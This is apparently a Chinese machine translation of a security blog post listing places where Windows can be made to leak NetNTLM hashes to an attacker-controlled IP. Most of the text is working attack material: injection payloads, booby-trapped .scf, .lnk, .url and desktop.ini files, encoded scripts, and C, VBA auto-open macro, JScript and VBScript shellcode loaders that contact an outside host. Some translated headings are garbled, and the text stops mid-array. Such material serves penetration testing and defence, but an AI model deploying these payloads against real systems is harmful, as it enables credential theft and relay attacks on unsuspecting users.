










# 窃取 NetNTLM 哈希的有趣地方

> 原文：<https://infosecwriteups.com/places-of-interest-in-stealing-netntlm-hashes-e9ac2cf17295?source=collection_archive---------1----------------------->

有一天，我和@m3g9tr0n 讨论了在窃取 NetNTLM 哈希时可以使用 responder 的不同地方。经过试验，我想到写这篇文章，以及在 Windows 世界中的一些很酷的发现。在这些情况下，SMBRelay 攻击也是可能的。

# LFI

PHP 中的 *include()* 会为我们解析网络路径。

```
[http://host.tld/?page=//11.22.33.44/@OsandaMalith](http://host.tld/?page=//11.22.33.44/@OsandaMalith)
```



# XXE

在这里，我使用“*PHP://filter/convert . base64-encode/resource =*”来解析网络路径。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=//11.22.33.44/@OsandaMalith" >
]>
<root>
  <name></name>
  <tel></tel>
  <email>OUT&xxe;OUT</email>
  <password></password>
</root>
```



# XPath 注入

通常，doc()用于带外 XPath 注入，因此可以应用于解析网络路径。

```
[http://host.tld/?title=Foundation&type=*&rent_days=*](http://host.tld/?title=Foundation&type=*&rent_days=*) and doc('//35.164.153.224/@OsandaMalith')
```



# MySQL 注入

我已经写了一篇关于 MySQL 带外注入的完整的[帖子](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)，它可以通过互联网应用。您也可以使用“INTO OUTFILE”来解析网络路径。

```
[http://host.tld/index.php?id=1'](http://host.tld/index.php?id=1') union select 1,2,load_file('\\\\192.168.0.100\\@OsandaMalith'),4;%00
```



# MSSQL

由于支持堆栈查询，我们可以调用存储过程。

```
';declare @q varchar(99);set @q='\\192.168.254.52\test'; exec master.dbo.xp_dirtree @q
```

# Regsvr32

在做实验的时候偶然发现了这个。sct 文件。

```
regsvr32 /s /u /i://35.164.153.224/@OsandaMalith scrobj.dll
```



# 一批

你可以探索许多可能的方法

```
echo 1 > //192.168.0.1/abc 
pushd \\192.168.0.1\abc 
cmd /k \\192.168.0.1\abc 
cmd /c \\192.168.0.1\abc 
start \\192.168.0.1\abc 
mkdir \\192.168.0.1\abc 
type\\192.168.0.1\abc 
dir\\192.168.0.1\abc 
find, findstr, [x]copy, move, replace, del, rename and many more!
```



这是我在里面找到的另一个

```
regini -m //osanda malith
```


# 自动完成

你只需要键入' *\\host\* '，自动完成将在浏览器和运行对话框下完成。



# Autorun.inf

从 Windows 7 开始，此功能被禁用。但是，您可以通过更改自动运行的组策略来启用。确保隐藏 Autorun.inf 文件才能工作。

```
[autorun]
open=\\35.164.153.224\setup.exe
icon=something.ico
action=open Setup.exe
```

# 外壳命令文件

您可以将其保存为 something.scf，打开文件夹资源管理器后，它会尝试解析图标的网络路径。

```
[Shell]
Command=2
IconFile=\\35.164.153.224\test.ico
[Taskbar]
Command=ToggleDesktop
```

# Desktop.ini

desktop.ini 文件包含应用于该文件夹的图标信息。我们可以滥用它来解析网络路径。一旦你打开文件夹，你应该得到散列。

```
mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```

在 Windows XP 系统中，desktop.ini 文件使用“IcondFile”而不是“IconResource”。

```
[.ShellClassInfo]
IconFile=\\192.168.0.1\aa
IconIndex=1337
```

# 快捷方式文件(。lnk)

我们可以创建一个包含网络路径的快捷方式，当您打开快捷方式时，Windows 将尝试解析网络路径。您也可以指定一个键盘快捷键来触发该快捷键。对于图标，您可以给出 Windows 二进制文件的名称，或者从 system32 目录中的 shell32.dll、Ieframe.dll、imageres.dll、pnidui.dll 或 wmploc.dll 中选择一个图标。

```
Set shl = CreateObject("WScript.Shell") 
Set fso = CreateObject("Scripting.FileSystemObject") 
currentFolder = shl.CurrentDirectory 
Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, "\StealMyHashes.lnk")) 
sc.TargetPath = "\\35.164.153.224\@OsandaMalith" 
sc.WindowStyle = 1 
sc.HotKey = "Ctrl+Alt+O" 
sc.IconLocation = "%windir%\system32\shell32.dll, 3" 
sc.Description = "I will Steal your Hashes" 
sc.Save
```

Powershell 版本。

```
$objShell = New-Object -ComObject WScript.Shell 
$lnk = $objShell.CreateShortcut("StealMyHashes.lnk") $lnk.TargetPath = "\\35.164.153.224\@OsandaMalith" 
$lnk.WindowStyle = 1 
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" $lnk.Description = "I will Steal your Hashes" $lnk.HotKey = "Ctrl+Alt+O" 
$lnk.Save()
```



# 互联网快捷方式(。网址)

Windows 中的另一个快捷方式是 Internet 快捷方式。您可以将其保存为 something.url

```
echo [InternetShortcut] > stealMyHashes.url 
echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url
```

# 使用注册表自动运行

您可以在以下任何路径中添加新的注册表项。

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```



Powershell 中可能有许多 scriptlets 可以解析网络路径。

# Powershell

```
Invoke-Item \\192.168.0.1\aa 
Get-Content \\192.168.0.1\aa 
Start-Process \\192.168.0.1\aa
```

# 工业管理学(Industrial Engineering)

IE 将解析 UNC 路径。例如

```

```

你可以在 XSS 或者 SQL 注入的场景下注射。比如说。

```
[http://host.tld/?id=-1'](http://host.tld/?id=-1') union select 1,'';%00
```

# VBScript

您可以将此另存为。vbs 或可用于应用于 Word 或 Excel 文件的宏中。

```
Set fso = CreateObject("Scripting.FileSystemObject") 
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
```

你可以在网页上申请，但这只适用于 IE。

```
<html>
<script type="text/Vbscript">
<!--
Set fso = CreateObject("Scripting.FileSystemObject")
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
//-->
</script>
</html>
```

这是编码版本。你可以将它编码并保存为 something.vbe

```
#@~^ZQAAAA==jY~6?}'ZM2mO2}4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn{0dWcGa+U:+XYsbVcJJzf*cF*cF*2 yczmCE~8#XSAAAA==^#~@
```

你也可以在 HTML 文件中应用它。但只适用于 IE。你可以将它保存为 something.hta，这将是 windows 下的一个 HTML 应用程序，mshta.exe 将执行它。默认情况下，它使用 IE。

```
<html>
<script type="text/Vbscript.Encode">
<!--
#@~^ZQAAAA==jY~6?}'ZM2mO2}4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn{0dWcGa+U:+XYsbVcJJzf*cF*cF*2  yczmCE~8#XSAAAA==^#~@
//-->
</script>
</html>
```

# JScript

你可以在 windows 下把这个存成 something.js。

```
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
```

你可以在 HTML 文件中应用同样的方法，但是只能在 IE 中使用。还有，可以把这个存成 something.hta。

```
<html>
<script type="text/Jscript">
<!--
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
//-->
</script>
</html>
```

这是编码版本。可以把这个存成 something.jse。

```
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:}8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
```

这个的 HTML 版本。

```
<html>
<script type="text/Jscript.Encode">
<!--
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:}8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
//-->
</script>
</html>
```

# Windows 脚本文件

将此另存为 something.wsf。

```
<package>
  <job id="boom">
    <script language="VBScript">
       Set fso = CreateObject("Scripting.FileSystemObject")
       Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
    </script>
   </job>
</package>
```

# 外壳代码

这是我做的一个小外壳代码。此外壳代码使用 CreateFile 并试图读取不存在的网络路径。您可以使用 Responder 之类的工具来捕获 NetNTLM 哈希。外壳代码可以被修改，以窃取互联网上的哈希。SMBRelay 攻击也可以执行。

```
/*
    Title: CreateFile Shellcode
    Author: Osanda Malith Jayathissa ([@OsandaMalith](http://twitter.com/OsandaMalith))
    Website: [https://osandamalith.com](https://osandamalith.com)
    Size: 368 Bytes
*/
# include <stdlib.h>
# include <stdio.h>
# include <string.h>
# include <windows.h>

int main() {

  char *shellcode = 
  "\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x4c\x03\x02\x02\x81\xf1\x02\x02"
  "\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x05\x0f\x44\xc6\xaa"
  "\xe2\xf6\xe8\x05\x05\x05\x05\x5e\x8b\xfe\x81\xc6\x29\x01\x05\x05"
  "\xb9\x02\x05\x05\x05\xfc\xad\x01\x3c\x07\xe2\xfa\x56\xb9\x8d\x10"
  "\xb7\xf8\xe8\x5f\x05\x05\x05\x68\x31\x01\x05\x05\xff\xd0\xb9\xe0"
  "\x53\x31\x4b\xe8\x4e\x05\x05\x05\xb9\xac\xd5\xaa\x88\x8b\xf0\xe8"
  "\x42\x05\x05\x05\x6a\x05\x68\x80\x05\x05\x05\x6a\x03\x6a\x05\x6a"
  "\x01\x68\x05\x05\x05\x80\x68\x3e\x01\x05\x05\xff\xd0\x6a\x05\xff"
  "\xd6\x33\xc0\x5e\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c\x61\x0f\xbe"
  "\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0\x75\xea\x8b"
  "\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53\x56\x57\x89"
  "\x4d\xf4\x64\xa1\x30\x05\x05\x05\x89\x45\xfc\x8b\x45\xfc\x8b\x40"
  "\x0c\x8b\x40\x14\x89\x45\xec\x8b\xf8\x8b\xcf\xe8\xd2\xff\xff\xff"
  "\x8b\x70\x18\x8b\x3f\x85\xf6\x74\x4f\x8b\x46\x3c\x8b\x5c\x30\x78"
  "\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff\xff\xff\x8b"
  "\x4c\x33\x20\x89\x45\xf8\x33\xc0\x03\xce\x89\x4d\xf0\x89\x45\xfc"
  "\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75\xff\xff\xff"
  "\x03\x45\xf8\x39\x45\xf4\x74\x1c\x8b\x45\xfc\x8b\x4d\xf0\x40\x89"
  "\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c\x33\xc0\x5f"
  "\x5e\x5b\xc9\xc3\x8b\x4d\xfc\x8b\x44\x33\x24\x8d\x04\x48\x0f\xb7"
  "\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04\x30\x03\xc6\xeb\xdf"
  "\x21\x05\x05\x05\x50\x05\x05\x05\x6b\x65\x72\x6e\x65\x6c\x33\x32"
  "\x2e\x64\x6c\x6c\x05\x2f\x2f\x65\x72\x72\x6f\x72\x2f\x61\x61\x05";

  DWORD oldProtect;

    wprintf(L"Length : %d bytes\n@OsandaMalith", strlen(shellcode));
    BOOL ret = VirtualProtect (shellcode, strlen(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    if (!ret) {
        fprintf(stderr, "%s", "Error Occured");
        return EXIT_FAILURE;
    }

    ((void(*)(void))shellcode)();

    VirtualProtect (shellcode, strlen(shellcode), oldProtect, &oldProtect);

    return EXIT_SUCCESS;
}
```

[https://packets storm security . com/files/141707/create file-shellcode . html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)


# 宏内部的外壳代码

下面是在 Word/Excel 宏中应用的上述外壳代码。您可以在 VB6 应用程序中使用相同的代码。

```
' Author : Osanda Malith Jayathissa ([@OsandaMalith](http://twitter.com/OsandaMalith))
' Title: Shellcode to request a non-existing network path
' Website: [https://osandamalith](https://osandamalith)
' Shellcode : [https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)
' This is a word/excel macro. This can be used in vb6 applications as well

#If Vba7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _ 
        ByVal lpStartAddress As LongPtr, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _ 
        lpThreadId As Long) As LongPtr

    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As LongPtr 

    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination  As LongPtr, _
        ByRef Source As Any, _
        ByVal Length As Long) As LongPtr

#Else
    Private Declare Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _
        ByVal lpStartAddress As Long, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _
        lpThreadId As Long) As Long

    Private Declare Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As Long

    Private Declare Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination As Long, _
        ByRef Source As Any, _
        ByVal Length As Long) As Long
#EndIf

Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40

Sub Auto_Open()
    Dim source As Long, i As Long
#If Vba7 Then
    Dim  lpMemory As LongPtr, lResult As LongPtr
#Else
    Dim  lpMemory As Long, lResult As Long
#EndIf

    Dim bShellcode(376) As Byte
        bShellcode(0) = 232
        bShellcode(1) = 255
        bShellcode(2) = 255
        bShellcode(3) = 255
        bShellcode(4) = 255
        bShellcode(5) = 192
        bShellcode(6) = 95
        bShellcode(7) = 185
        bShellcode(8) = 85
        bShellcode(9) = 3
        bShellcode(10) = 2
        bShellcode(11) = 2
        bShellcode(12) = 129
        bShellcode(13) = 241
        bShellcode(14) = 2
        bShellcode(15) = 2
        bShellcode(16) = 2
                .....................
lpMemory = VirtualAlloc(0, UBound(bShellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    For i = LBound(bShellcode) To UBound(bShellcode)
        source = bShellcode(i)
        lResult = RtlMoveMemory(lpMemory + i, source, 1)
    Next i
    lResult = CreateThread(0, 0, lpMemory, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

[https://github . com/OsandaMalith/Shellcodes/blob/master/create file/create file . VBA](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vba)

# VBS 和 JS 内部的外壳代码

subTee 用 JS 和 DynamicWrapperX 做了很多种类的研究。您可以使用 DynamicWrapperX DLL 找到 POC。
[http://subtox 10 . blogspot . com/2016/09/shellcode-via-jscript-VBScript . html](http://subt0x10.blogspot.com/2016/09/shellcode-via-jscript-vbscript.html)
在此基础上我将 shellcode 移植到了 JS 和 VBS。有趣的是，我们可以在 html 和。hta 格式。
请注意，以下外壳代码指向我的 IP。

# JScript

```
/*
 * Author : Osanda Malith Jayathissa ([@OsandaMalith](http://twitter.com/OsandaMalith))
 * Title: Shellcode to request a non-existing network path
 * Website: [https://osandamalith.com](https://osandamalith.com)
 * Shellcode : [https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)
 * Based on subTee's JS: [https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04](https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04)
 */
DX = new ActiveXObject("DynamicWrapperX"); 
DX.Register("kernel32.dll", "VirtualAlloc", "i=luuu", "r=u");
DX.Register("kernel32.dll","CreateThread","i=uullu","r=u" );
DX.Register("kernel32.dll", "WaitForSingleObject", "i=uu", "r=u");

var MEM_COMMIT = 0x1000;
var PAGE_EXECUTE_READWRITE = 0x40;

var sc = [
0xe8, 0xff, 0xff, 0xff, 0xff, 0xc0, 0x5f, 0xb9, 0x55, 0x03, 0x02, 0x02, 0x81, 0xf1, 0x02, 0x02, 0x02, 0x02, 0x83, 0xc7,
0x1d, 0x33, 0xf6, 0xfc, 0x8a, 0x07, 0x3c, 0x05, 0x0f, 0x44, 0xc6, 0xaa, 0xe2, 0xf6, 0xe8, 0x05, 0x05, 0x05, 0x05, 0x5e,
0x8b, 0xfe, 0x81, 0xc6, 0x29, 0x01, 0x05, 0x05, 0xb9, 0x02, 0x05, 0x05, 0x05, 0xfc, 0xad, 0x01, 0x3c, 0x07, 0xe2, 0xfa,
0x56, 0xb9, 0x8d, 0x10, 0xb7, 0xf8, 0xe8, 0x5f, 0x05, 0x05, 0x05, 0x68, 0x31, 0x01, 0x05, 0x05, 0xff, 0xd0, 0xb9, 0xe0,
0x53, 0x31, 0x4b, 0xe8, 0x4e, 0x05, 0x05, 0x05, 0xb9, 0xac, 0xd5, 0xaa, 0x88, 0x8b, 0xf0, 0xe8, 0x42, 0x05, 0x05, 0x05,
0x6a, 0x05, 0x68, 0x80, 0x05, 0x05, 0x05, 0x6a, 0x03, 0x6a, 0x05, 0x6a, 0x01, 0x68, 0x05, 0x05, 0x05, 0x80, 0x68, 0x3e,
0x01, 0x05, 0x05, 0xff, 0xd0, 0x6a, 0x05, 0xff, 0xd6, 0x33, 0xc0, 0x5e, 0xc3, 0x33, 0xd2, 0xeb, 0x10, 0xc1, 0xca, 0x0d,
0x3c, 0x61, 0x0f, 0xbe, 0xc0, 0x7c, 0x03, 0x83, 0xe8, 0x20, 0x03, 0xd0, 0x41, 0x8a, 0x01, 0x84, 0xc0, 0x75, 0xea, 0x8b,
0xc2, 0xc3, 0x8d, 0x41, 0xf8, 0xc3, 0x55, 0x8b, 0xec, 0x83, 0xec, 0x14, 0x53, 0x56, 0x57, 0x89, 0x4d, 0xf4, 0x64, 0xa1,
0x30, 0x05, 0x05, 0x05, 0x89, 0x45, 0xfc, 0x8b, 0x45, 0xfc, 0x8b, 0x40, 0x0c, 0x8b, 0x40, 0x14, 0x89, 0x45, 0xec, 0x8b,
0xf8, 0x8b, 0xcf, 0xe8, 0xd2, 0xff, 0xff, 0xff, 0x8b, 0x70, 0x18, 0x8b, 0x3f, 0x85, 0xf6, 0x74, 0x4f, 0x8b, 0x46, 0x3c,
0x8b, 0x5c, 0x30, 0x78, 0x85, 0xdb, 0x74, 0x44, 0x8b, 0x4c, 0x33, 0x0c, 0x03, 0xce, 0xe8, 0x96, 0xff, 0xff, 0xff, 0x8b,
0x4c, 0x33, 0x20, 0x89, 0x45, 0xf8, 0x33, 0xc0, 0x03, 0xce, 0x89, 0x4d, 0xf0, 0x89, 0x45, 0xfc, 0x39, 0x44, 0x33, 0x18,
0x76, 0x22, 0x8b, 0x0c, 0x81, 0x03, 0xce, 0xe8, 0x75, 0xff, 0xff, 0xff, 0x03, 0x45, 0xf8, 0x39, 0x45, 0xf4, 0x74, 0x1c,
0x8b, 0x45, 0xfc, 0x8b, 0x4d, 0xf0, 0x40, 0x89, 0x45, 0xfc, 0x3b, 0x44, 0x33, 0x18, 0x72, 0xde, 0x3b, 0x7d, 0xec, 0x75,
0x9c, 0x33, 0xc0, 0x5f, 0x5e, 0x5b, 0xc9, 0xc3, 0x8b, 0x4d, 0xfc, 0x8b, 0x44, 0x33, 0x24, 0x8d, 0x04, 0x48, 0x0f, 0xb7,
0x0c, 0x30, 0x8b, 0x44, 0x33, 0x1c, 0x8d, 0x04, 0x88, 0x8b, 0x04, 0x30, 0x03, 0xc6, 0xeb, 0xdf, 0x21, 0x05, 0x05, 0x05,
0x50, 0x05, 0x05, 0x05, 0x6b, 0x65, 0x72, 0x6e, 0x65, 0x6c, 0x33, 0x32, 0x2e, 0x64, 0x6c, 0x6c, 0x05, 0x2f, 0x2f, 0x33,
0x35, 0x2e, 0x31, 0x36, 0x34, 0x2e, 0x31, 0x35, 0x33, 0x2e, 0x32, 0x32, 0x34, 0x2f, 0x61, 0x61, 0x05];

var scLocation = DX.VirtualAlloc(0, sc.length, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 
for(var i = 0; i < sc.length; i++) DX.NumPut(sc[i],scLocation,i);
var thread = DX.CreateThread(0,0,scLocation,0,0);
```

[https://github . com/OsandaMalith/Shellcodes/blob/master/create file/create file . js](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.js)

# VBScript

```
' Author : Osanda Malith Jayathissa ([@OsandaMalith](http://twitter.com/OsandaMalith))
' Title: Shellcode to request a non-existing network path
' Website: [https://osandamalith.com](https://osandamalith.com)
' Shellcode : [https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)
' Based on subTee's JS: [https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04](https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04)

Set DX = CreateObject("DynamicWrapperX")
DX.Register "kernel32.dll", "VirtualAlloc", "i=luuu", "r=u"
DX.Register "kernel32.dll","CreateThread","i=uullu","r=u"
DX.Register "kernel32.dll", "WaitForSingleObject", "i=uu", "r=u"

Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40

shellcode = Array( _
&He8, &Hff, &Hff, &Hff, &Hff, &Hc0, &H5f, &Hb9, &H55, &H03, &H02, &H02, &H81, &Hf1, &H02, &H02, &H02, &H02, &H83, &Hc7, _
&H1d, &H33, &Hf6, &Hfc, &H8a, &H07, &H3c, &H05, &H0f, &H44, &Hc6, &Haa, &He2, &Hf6, &He8, &H05, &H05, &H05, &H05, &H5e, _
&H8b, &Hfe, &H81, &Hc6, &H29, &H01, &H05, &H05, &Hb9, &H02, &H05, &H05, &H05, &Hfc, &Had, &H01, &H3c, &H07, &He2, &Hfa, _
&H56, &Hb9, &H8d, &H10, &Hb7, &Hf8, &He8, &H5f, &H05, &H05, &H05, &H68, &H31, &H01, &H05, &H05, &Hff, &Hd0, &Hb9, &He0, _ 
&H53, &H31, &H4b, &He8, &H4e, &H05, &H05, &H05, &Hb9, &Hac, &Hd5, &Haa, &H88, &H8b, &Hf0, &He8, &H42, &H05, &H05, &H05, _
&H6a, &H05, &H68, &H80, &H05, &H05, &H05, &H6a, &H03, &H6a, &H05, &H6a, &H01, &H68, &H05, &H05, &H05, &H80, &H68, &H3e, _
&H01, &H05, &H05, &Hff, &Hd0, &H6a, &H05, &Hff, &Hd6, &H33, &Hc0, &H5e, &Hc3, &H33, &Hd2, &Heb, &H10, &Hc1, &Hca, &H0d, _
&H3c, &H61, &H0f, &Hbe, &Hc0, &H7c, &H03, &H83, &He8, &H20, &H03, &Hd0, &H41, &H8a, &H01, &H84, &Hc0, &H75, &Hea, &H8b, _
&Hc2, &Hc3, &H8d, &H41, &Hf8, &Hc3, &H55, &H8b, &Hec, &H83, &Hec, &H14, &H53, &H56, &H57, &H89, &H4d, &Hf4, &H64, &Ha1, _
&H30, &H05, &H05, &H05, &H89, &H45, &Hfc, &H8b, &H45, &Hfc, &H8b, &H40, &H0c, &H8b, &H40, &H14, &H89, &H45, &Hec, &H8b, _
&Hf8, &H8b, &Hcf, &He8, &Hd2, &Hff, &Hff, &Hff, &H8b, &H70, &H18, &H8b, &H3f, &H85, &Hf6, &H74, &H4f, &H8b, &H46, &H3c, _ 
&H8b, &H5c, &H30, &H78, &H85, &Hdb, &H74, &H44, &H8b, &H4c, &H33, &H0c, &H03, &Hce, &He8, &H96, &Hff, &Hff, &Hff, &H8b, _
&H4c, &H33, &H20, &H89, &H45, &Hf8, &H33, &Hc0, &H03, &Hce, &H89, &H4d, &Hf0, &H89, &H45, &Hfc, &H39, &H44, &H33, &H18, _
